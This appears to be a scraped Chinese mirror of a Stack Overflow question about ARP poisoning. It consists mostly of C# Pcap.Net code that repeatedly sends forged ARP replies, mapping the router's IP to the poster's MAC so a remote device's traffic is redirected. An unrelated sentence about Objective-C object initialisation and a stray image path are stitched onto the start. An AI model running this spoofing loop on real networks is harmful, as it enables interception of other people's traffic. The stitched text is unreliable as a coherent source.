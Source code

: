 我打赌你不会`alloc`和`init`你的`origin`对象在`Rectangle`类的初始化......

# c# - ARP中毒给自己

> ID：15466077
> 
> 赞同：1
> 
> 时间：2013-03-17T20:50:40.477
> 
> 标签：c#, network-programming, winpcap, arp, pcap.net

我正在使用 PcapDotNet 使用以下代码创建 ARP 毒包：

```
using (PacketCommunicator communicator =
            selectedDevice.Open(100, PacketDeviceOpenAttributes.Promiscuous, 1000)) 
        {
            while (true)
            {
                Packet arp;

                EthernetLayer ethernetLayer = new EthernetLayer
                {
                    Source = new MacAddress("f8:d1:11:05:8c:91"), // My Mac
                    Destination = new MacAddress("5c:da:d4:29:6d:5f"), // Remote device IP
                    EtherType = EthernetType.None, // Will be filled automatically.
                };

                ArpLayer arpLayer = new ArpLayer
                {
                    ProtocolType = EthernetType.IpV4,
                    Operation = ArpOperation.Reply,
                    SenderHardwareAddress = new byte[] { 0xf8, 0xd1, 0x11, 0x05, 0x8c, 0x91 }.AsReadOnly(), // My MAC
                    SenderProtocolAddress = new byte[] { 192, 168, 1, 254 }.AsReadOnly(), // My Router IP

                    TargetHardwareAddress = new byte[] { 0xff, 0xff, 0xff, 0xff, 0xff, 0xff }.AsReadOnly(),
                    TargetProtocolAddress = new byte[] { 0, 0, 0, 0 }.AsReadOnly(),
                };

                PacketBuilder builder = new PacketBuilder(ethernetLayer, arpLayer);

                arp = builder.Build(DateTime.Now);

                communicator.SendPacket(arp);
                System.Threading.Thread.Sleep(500);
            }
        } 
```
